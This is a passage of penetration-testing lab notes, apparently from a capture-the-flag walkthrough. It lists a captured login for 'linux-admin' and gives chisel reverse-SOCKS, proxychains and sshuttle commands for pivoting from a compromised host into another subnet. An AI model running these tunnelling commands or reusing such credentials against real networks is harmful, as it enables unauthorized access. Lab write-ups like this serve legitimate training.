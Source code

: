 ```
linux-admin : linuxrulez
```



### Tunnelling



#### chisel and proxychains



1. Used for port forwarding and tunneling to access one subnet from another, which you might not have direct access to.
2. To proxy or route the traffic from alternate subnet

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.

To create a SOCKs server with Chisel, you will only need two commands ran  on the target and the attacking machine, outlined below.

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`



Now that we have a SOCKs server set up, we need to interpret and  manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the  proxy in the command line. To add the SOCKs server to proxychains, you  will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![img](https://i.imgur.com/PLDdyI8.png)

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route  through the proxy with proxychains. An example usage can be found below.



#### sshuttle

The second tool we will be looking at is sshuttle. Sshuttle is unique in  its approaches to pivoting because all of its techniques are done  remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are  that it will only work if there is an ssh server running on the machine, and it will not work on Windows hosts. You can download sshuttle from  GitHub, https://github.com/sshuttle/sshuttle

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this  parameter, you will specify the user and target like you would for a  standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of  syntax below.

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`



```
shuttle -r linux-admin@10.200.138.33 0/0 -x 10.200.138.33
```
